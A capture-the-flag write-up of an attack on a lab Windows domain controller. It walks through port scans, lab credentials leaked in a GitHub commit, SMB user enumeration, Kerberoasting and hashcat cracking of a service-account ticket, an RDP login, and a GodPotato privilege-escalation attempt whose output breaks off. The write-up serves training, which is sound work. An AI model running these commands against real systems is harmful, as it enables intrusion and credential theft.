Writeup by wook413

[TOC]

# Recon

## Nmap

I initiated the assessment with a comprehensive Nmap scan covering all 65,535 TCP ports. This was followed by a targeted service and script scan on identified ports and a UDP scan of the top 10 ports to ensure no common attack vectors were missed.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 2000 -p- 
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-31 21:32 UTC
Nmap scan report for 10.80.139.118
Host is up (0.10s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
7990/tcp  open  unknown
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49672/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49678/tcp open  unknown
49697/tcp open  unknown
49704/tcp open  unknown
49847/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.62 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3389,5985,7990,9389,47001,49664-49669,49672-49674,49678,49697,49704,4984
7
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-31 21:34 UTC
Nmap scan report for 10.80.139.118
Host is up (0.10s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-31 21:34:14Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LAB-ENTERPRISE
|   NetBIOS_Domain_Name: LAB-ENTERPRISE
|   NetBIOS_Computer_Name: LAB-DC
|   DNS_Domain_Name: LAB.ENTERPRISE.THM
|   DNS_Computer_Name: LAB-DC.LAB.ENTERPRISE.THM
|   DNS_Tree_Name: ENTERPRISE.THM
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-31T21:35:11+00:00
| ssl-cert: Subject: commonName=LAB-DC.LAB.ENTERPRISE.THM
| Not valid before: 2026-01-30T21:23:58
|_Not valid after:  2026-08-01T21:23:58
|_ssl-date: 2026-01-31T21:35:18+00:00; +1s from scanner time.
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7990/tcp  open   http          Microsoft IIS httpd 10.0
|_http-title: Log in to continue - Log in with Atlassian account
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp closed unknown
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp closed unknown
49669/tcp open   msrpc         Microsoft Windows RPC
49672/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open   msrpc         Microsoft Windows RPC
49674/tcp open   msrpc         Microsoft Windows RPC
49678/tcp open   msrpc         Microsoft Windows RPC
49697/tcp open   msrpc         Microsoft Windows RPC
49704/tcp open   msrpc         Microsoft Windows RPC
49847/tcp open   msrpc         Microsoft Windows RPC
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-31T21:35:10
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 73.53 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                                               
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-31 21:26 UTC
Nmap scan report for 10.80.139.118
Host is up (0.10s latency).

PORT     STATE         SERVICE
53/udp   open          domain
67/udp   closed        dhcps
123/udp  open          ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

# Initial Access

## HTTP 80 7990

Nmap script enumeration on the identified HTTP services did not yield any interesting information.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80,7990
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-31 21:36 UTC
Nmap scan report for 10.80.139.118
Host is up (0.100s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-enum: 
|_  /robots.txt: Robots file
7990/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 304.14 seconds
```

### HTTP 80

The main page on port 80 implies that the target machine is actually the Domain Controller.





Directory brute-forcing on port 80 using `gobuster` and `feroxbuster` yielded no significant results.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt                                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.80.139.118>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots.txt           (Status: 200) [Size: 110]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ feroxbuster -u <http://$IP>
                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \\ \\_/ | |  \\ |__
|    |___ |  \\ |  \\ | \\__,    \\__/ / \\ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ <http://10.80.139.118>
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ <https://github.com/epi052/feroxbuster/releases/latest>
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        4l       18w      215c <http://10.80.139.118/>
400      GET        6l       26w      324c <http://10.80.139.118/error%1F_log>
[####################] - 76s    30000/30000   0s      found:2       errors:0      
[####################] - 76s    30000/30000   395/s   <http://10.80.139.118/>
```

### HTTP 7990

The Atlassian page on port 7990 provided a lead: a message informing employees of a migration to Github.



A search for “Enterprise-THM github” led to a public Github organization: **Enterprise.THM**.



Upon inspecting the **Enterprise.THM** Github organization, I identified a single member, `Nik-enterprise-dev` . HIs only repository, `mgmtScript.ps1` , contained two commits; the initial commit revealed a set of sensitive credentials that had been subsequently removed in the next commit.







## SMB 139 445

SMB Null Authentication is allowed. However, I’ll come back to this later because I would like to test the credentials I found first.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP      

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Docs            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      Users Share. Do Not Touch!
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.80.139.118 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

I validated these credentials using `NetExec` , confirming that `nik` is a valid domain user.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nxc smb $IP -u 'nik' -p 'ToastyBoi!' --users 
SMB         10.80.139.118   445    LAB-DC           [*] Windows 10 / Server 2019 Build 17763 x64 (name:LAB-DC) (domain:LAB.ENTERPRISE.THM) (signing:True) (SMBv1:False)
SMB         10.80.139.118   445    LAB-DC           [+] LAB.ENTERPRISE.THM\\nik:ToastyBoi! 
SMB         10.80.139.118   445    LAB-DC           -Username-                    -Last PW Set-       -BadPW- -Description-               
SMB         10.80.139.118   445    LAB-DC           Administrator                 2021-03-11 21:23:37 0       Built-in account for administering the computer/domain
SMB         10.80.139.118   445    LAB-DC           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.80.139.118   445    LAB-DC           krbtgt                        2021-03-12 00:31:21 0       Key Distribution Center Service Account
SMB         10.80.139.118   445    LAB-DC           atlbitbucket                  2021-03-11 22:52:53 0        
SMB         10.80.139.118   445    LAB-DC           bitbucket                     2021-03-12 01:20:01 0        
SMB         10.80.139.118   445    LAB-DC           nik                           2021-03-12 01:33:25 0        
SMB         10.80.139.118   445    LAB-DC           replication                   2021-03-12 03:01:41 0        
SMB         10.80.139.118   445    LAB-DC           spooks                        2021-03-12 03:35:24 0        
SMB         10.80.139.118   445    LAB-DC           korone                        2021-03-12 03:36:10 0        
SMB         10.80.139.118   445    LAB-DC           banana                        2021-03-12 03:37:11 0        
SMB         10.80.139.118   445    LAB-DC           Cake                          2021-03-12 03:39:42 0        
SMB         10.80.139.118   445    LAB-DC           contractor-temp               2021-03-12 03:44:27 0       Change password from Password123!
SMB         10.80.139.118   445    LAB-DC           varg                          2021-03-12 03:45:57 0        
SMB         10.80.139.118   445    LAB-DC           joiner                        2021-03-15 01:15:38 0        
SMB         10.80.139.118   445    LAB-DC           [*] Enumerated 14 local users: LAB-ENTERPRISE
```

Remote access via `evil-winrm` and `xfreerdp` failed for the user `nik` . This suggests that the account is not a member of the **Remote Desktop Users** group.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ evil-winrm -i $IP -u 'nik' -p 'ToastyBoi!'    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: <https://github.com/Hackplayers/evil-winrm#Remote-path-completion>
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

## Kerberoasting

The valid set of credentials was sufficient to perform **Kerberoasting** attack. I identified the **`bitbucket`** as roastable.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-GetUserSPNs 'LAB.ENTERPRISE.THM/nik:ToastyBoi!' -dc-ip $IP -outputfile hashes.txt 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name       MemberOf                                                     PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  -----------------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM  2021-03-12 01:20:01.333272  2021-04-26 15:16:41.570158             

[-] CCache file is not found. Skipping...
```

The extracted has was cracked locally using `hashcat` and I got the plaintext password.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat hashes.txt      
$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTERPRISE.THM/bitbucket*$02354094f32eb7acc36ef1b265839496$e9080258981c44b0a941627c8166dfa4cf262cec5c4478d9a5606fae8e55ab82a711abedee9b71db109849bc296758a820184cfd19508f5f19f6b0eac69568ced0e19af45b64d1df2d5b5211528c2243812b8e0d725d2ff2a92fd1cd423afac80cea8e897ce93877e0144e573e69303553b413fe932a65088d786673b6a34219a974440be462ff8a8c2e28ae50cac374c335f36b340340bfab884427603c0b979f265db902afc1229a38492da8d084f8be7bdfd9a16c2c3d010e1a0107f8dff5acfa6e7466a31fb6899fc977847ab8e37e4f72447569ad1ae8f2dbd8788188d0c77c8a179756e3f7a5eed896876f9c24c917bdf05635dee8845ffbe0f1716e2392745b26e29e60ca396399dc8d716df00d4aa03c50f28a624eebbbab4b8f7434284eb66466758a44cb77e0c875c07cc172a76cd1a4f31e32b109f689622183e9f6ef1d925c58cd1acc5a0c48edb9f4cd181bb1cb8ecdf452ec7db3d5a53a4b24f35cc6d0b03fcdd75457d30c074b4a6ca905281c4b0d4e883ed0f5548e6f905be331e0a8df003c5dd8b423b611bdd037efd1572dd54e2dda5aa296808d591104a8b72a73859124ac07f0bafc78bc1da1b168049e0341d3355763e1a87da4fae6e1525e9c7df7765862071b3d430c8210b469f247dd025873fa9674b8682eaa58ce15504d69f46e9dc14329183979c676dd7cf30b4f90b545d297bf18d7afe63fd53172a1629b72d41c3b8dc3d999a077f816b74c41e83b0b60b8f91a9646e6fdf4f823aff206fabe7d4c1de91ff23d42b05118ede6e605822a82ae3dc6949b3ec7bf474712838b0d74ae452b88cc5c556c3fe3fa81b4f4e9b95a84774e417d38494c7a3f5f04d307ab10885761b760edc8807956976f500e404d8f29ae8f1b726126b4124cdbf6e6a214abf0e3be2bf05e23313d5e983f5318ee359ac4fbc1cd42805c64af829d7b7340be5b861639a5c883a473701a041ef37e90e29d0f95067e30cf493a85601843c9d7360d45d9bac9187913a6e463f6ddbd03b51b05b7ffe87cf2db630cabaf39a28bbf806fdcb62f0846685ef39d9a2e8ff11c497fa40edc6cd3ce1edde2f65b036ab36cb1c888f4d3a4894c59e0dac1702362434eb13e28070f1f7ac25cdede6232b6a669ca792706ec21e67111766700cd68b3617e611ddd8927f1b48ebaefa50d00fd4883c99bc77eef965d41f446c6d56d5f8fea217b10a1fd142e6a723adda2ace7bb9409c3edcbcade3dd20d781d11a35714df43bf7e5081108d4145f42d3f45b4461a8a1ca862ae0cef55d5a13dc8dbe4f2517a0dd08aeeb38651750214ca3611dbbd25feaa025feedf6c8a401cb7baad1c06d4e398b3
$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTERPRISE.THM/bitbucket*$02354094f32eb7acc36ef1b265839496$e9080258981c44b0a941627c8166dfa4cf262cec5c4478d9a5606fae8e55ab82a711abedee9b71db109849bc296758a820184cfd19508f5f19f6b0eac69568ced0e19af45b64d1df2d5b5211528c2243812b8e0d725d2ff2a92fd1cd423afac80cea8e897ce93877e0144e573e69303553b413fe932a65088d786673b6a34219a974440be462ff8a8c2e28ae50cac374c335f36b340340bfab884427603c0b979f265db902afc1229a38492da8d084f8be7bdfd9a16c2c3d010e1a0107f8dff5acfa6e7466a31fb6899fc977847ab8e37e4f72447569ad1ae8f2dbd8788188d0c77c8a179756e3f7a5eed896876f9c24c917bdf05635dee8845ffbe0f1716e2392745b26e29e60ca396399dc8d716df00d4aa03c50f28a624eebbbab4b8f7434284eb66466758a44cb77e0c875c07cc172a76cd1a4f31e32b109f689622183e9f6ef1d925c58cd1acc5a0c48edb9f4cd181bb1cb8ecdf452ec7db3d5a53a4b24f35cc6d0b03fcdd75457d30c074b4a6ca905281c4b0d4e883ed0f5548e6f905be331e0a8df003c5dd8b423b611bdd037efd1572dd54e2dda5aa296808d591104a8b72a73859124ac07f0bafc78bc1da1b168049e0341d3355763e1a87da4fae6e1525e9c7df7765862071b3d430c8210b469f247dd025873fa9674b8682eaa58ce15504d69f46e9dc14329183979c676dd7cf30b4f90b545d297bf18d7afe63fd53172a1629b72d41c3b8dc3d999a077f816b74c41e83b0b60b8f91a9646e6fdf4f823aff206fabe7d4c1de91ff23d42b05118ede6e605822a82ae3dc6949b3ec7bf474712838b0d74ae452b88cc5c556c3fe3fa81b4f4e9b95a84774e417d38494c7a3f5f04d307ab10885761b760edc8807956976f500e404d8f29ae8f1b726126b4124cdbf6e6a214abf0e3be2bf05e23313d5e983f5318ee359ac4fbc1cd42805c64af829d7b7340be5b861639a5c883a473701a041ef37e90e29d0f95067e30cf493a85601843c9d7360d45d9bac9187913a6e463f6ddbd03b51b05b7ffe87cf2db630cabaf39a28bbf806fdcb62f0846685ef39d9a2e8ff11c497fa40edc6cd3ce1edde2f65b036ab36cb1c888f4d3a4894c59e0dac1702362434eb13e28070f1f7ac25cdede6232b6a669ca792706ec21e67111766700cd68b3617e611ddd8927f1b48ebaefa50d00fd4883c99bc77eef965d41f446c6d56d5f8fea217b10a1fd142e6a723adda2ace7bb9409c3edcbcade3dd20d781d11a35714df43bf7e5081108d4145f42d3f45b4461a8a1ca862ae0cef55d5a13dc8dbe4f2517a0dd08aeeb38651750214ca3611dbbd25feaa025feedf6c8a401cb7baad1c06d4e398b3:littleredbucket
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTER...e398b3
Time.Started.....: Sat Jan 31 21:57:02 2026 (2 secs)
Time.Estimated...: Sat Jan 31 21:57:04 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   954.7 kH/s (0.92ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1570816/14344385 (10.95%)
Rejected.........: 0/1570816 (0.00%)
Restore.Point....: 1568768/14344385 (10.94%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: lizuly -> liss4life
Hardware.Mon.#1..: Util: 74%

Started: Sat Jan 31 21:57:01 2026
Stopped: Sat Jan 31 21:57:05 2026
```

# Shell as `bitbucket`

The `bitbucket` user was found to be a member of the **Remote Desktop Users** group. I established a session via xfreerdp and successfully retrieved the user flag from the desktop.

```bash
xfreerdp3 /v:$IP /u:bitbucket /p:littleredbucket /dynamic-resolution
```



```cmd
C:\\Users\\bitbucket>net localgroup "Remote Desktop Users"
Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
bitbucket
The command completed successfully.
```

Found `user.txt`

```cmd
C:\\Users\\bitbucket\\Desktop>type user.txt
THM{ed8...
```

# Privilege Escalation

`whoami /priv` showed that the account held `SeAssignPrimaryTokenPrivilege` . I attempted to escalate privileges using GodPotato, but the exploit failed with a `Win32Error: 1314` .

```cmd
C:\\Users\\bitbucket\\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token  Disabled
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
C:\\Users\\bitbucket\\Desktop>.\\GodPotato-NET4.exe -cmd "whoami"
[*] CombaseModule: 0x140711571619840
[*] DispatchTable: 0x140711573937328
[*] UseProtseqFunction: 0x140711573314608
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\\\.\\pipe\\dde8c8f7-83f2-4ea8-8002-607bf436775c\\pipe\\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00003402-12d4-ffff-ce87-3a8b2b9b4525
[*] DCOM obj OXID: 0x153fef8990349303
[*] DCOM obj OID: 0x6aac05a958e86aa
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
